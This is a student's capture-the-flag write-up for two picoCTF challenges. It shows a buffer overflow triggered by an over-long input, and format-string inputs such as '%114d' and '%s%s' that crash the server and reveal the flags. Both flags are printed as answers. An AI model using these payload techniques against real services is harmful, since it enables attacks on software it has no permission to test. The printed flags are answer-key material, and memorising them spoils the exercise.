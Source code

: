 I understand that the server which runs this program has a secret `flag.txt` stored, which gets read if a crash (segmentation fault) happens. So my goal is to cause a buffer overflow and see the flag (this is also more evident because the name of the challenge is buffer overflow 0 lol).

```
abirbhav@ROG-STRIX-G713IE:~$ nc saturn.picoctf.net 49329
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

## Concepts learnt:

learnt how buffer overflows work and how its used to exploit vulnerabilities. using gets() and strcpy() without checking input size can let someone crash the program.

## Notes:


## Resources:

GPT 4.1 (learning purposes only.)


***

# 2. format string 0

> Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc mimas.picoctf.net 59147

## Solution:

After I started, I found a menu-based program where I had to recommend a burger for each customer.  
Patrick wanted a "giant bite," I chose the option with the %114d format specifier, since it represents a large integer, and that was the correct answer.  
SpongeBob wanted to "break the shop," I selected Cla%sic_Che%s%steak, and that choice was also right.

```
abirbhav@ROG-STRIX-G713IE:~$ nc mimas.picoctf.net 59147
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
```
